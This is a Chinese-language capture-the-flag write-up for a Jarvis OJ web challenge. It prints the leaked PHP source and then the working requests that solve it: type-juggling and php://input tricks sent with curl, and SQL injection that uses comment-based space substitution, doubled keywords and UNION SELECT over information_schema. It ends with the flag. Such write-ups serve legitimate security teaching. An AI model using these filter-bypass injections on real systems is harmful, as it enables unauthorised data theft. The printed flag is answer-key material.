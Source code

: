 ## 描述

连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

题目入口：http://web.jarvisoj.com:32780/

## 题解

跳转到了 http://web.jarvisoj.com:32780/index.php?id=1

```html
<!--index.phps-->work harder!harder!harder!
```

没有有效的信息，只有那个 `?id=1` 比较显眼。

尝试 sql 注入，没卵用。

发现之前那个 response 里的注释是 `index.phps`，尝试了一下居然打开了！得到

```php
<?php

error_reporting(0);
echo "<!--index.phps-->";

if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

查了下 `eregi` 和 `substr` 的用法，可以知道 `eregi("111".substr($b,0,1),"1114")` 这句话是将 `111` 与 `b` 的第一个字符拼起来，然后作为正则表达式去匹配 `1114`，匹配成功则为 true。（但是注意 `eregi` 在 PHP 7 就移除了，只是从 response header 来看服务器的 PHP 还是 5.X，所以能用）

那么这就很好办了，构造 `b=*11111` 就好了。

接下来思考如何让 `id=0`，思考一下 `id=0x0` 是不是就行了？哈哈哈还真的行。

现在来看 `data` 得如何得到 `1112 is a nice lab!` 这个字符串。

先尝试 http://web.jarvisoj.com:32780/index.php?id=0x0&b=*11111&a=g.g 得到了 `HIAHIAHIA` 的 response，与 `Hahahahahaha` 不符，猜测 `index.phps` 一定是一个由程序员偷懒而重命名得到的废弃文件哈哈哈，与 `index.php` 还是有差别的。

查询一下 `file_get_contents` 这个函数，发现这玩意是能获取 URL 的！！！但是如果没得自己的服务器支持挺难找的。。

再搜了一下发现了 `php://input` 这个玩意！！所以构造 `a=php://input/`，然后再 `POST` 一下 `1112 is a nice lab!` 就好！

`curl "http://web.jarvisoj.com:32780/index.php?id=0x0&b=*11111&a=php://input" -d "1112 is a nice lab!"`

于是得到 `<!--index.phps-->﻿Come ON!!! {/^HT2mCpcvOLf}`

看起来像地址，所以访问 http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf

跳转到了 http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=1

然后发现没多余信息了，头大。再尝试注入 `id=1 and 0`，发现得到了新东西！

```
you bad boy/girl!
```

看来有希望了，搞事情开始。然后发现注入全是得到上面的东西。。。。。。。。失望。

开始试试 `id=0`，没用。`id=2`，返回了新东西

```
SELECT * FROM content WHERE id=2
```

没卵用。。发现只要 `id` 里有空格就不行。。看下题解吧。

woc，空格能花式绕过，见 http://drops.xmd5.com/static/drops/tips-7299.html

> 空格替换：%20, %09, %0a, %0b, %0c, %0d, %a0  
  也可以插入括号，前缀，操作符，引号  
  'or+(1)sounds/**/like"1"--%a0-

在这里可以用 `/*1*/`。

但是还是好多关键字不能用。。查资料发现。。好多姿势。。。 https://blog.csdn.net/wy_97/article/details/78085664

根据简易的过滤规则（比如只替换关键字为空），我们便能双写关键字达到目的。。比如这样

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/seleselectct`

那么我们根据 `SELECT * FROM content WHERE id=2` 知道表名是 `content`，现在来找列名。

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/ununionion/*1*/selselectect/*1*/1,2,group_concat(column_name)/*1*/frfromom/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74`

注意表名我们用十六进制绕过了。得到

`id,context,title`

所以再找一下列里的信息就好了

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/ununionion/*1*/selselectect/*1*/1,2,context/*1*/frfromom/*1*/content`

得到答案

## 答案

PCTF{Fin4lly_U_got_i7_C0ngRatulation5}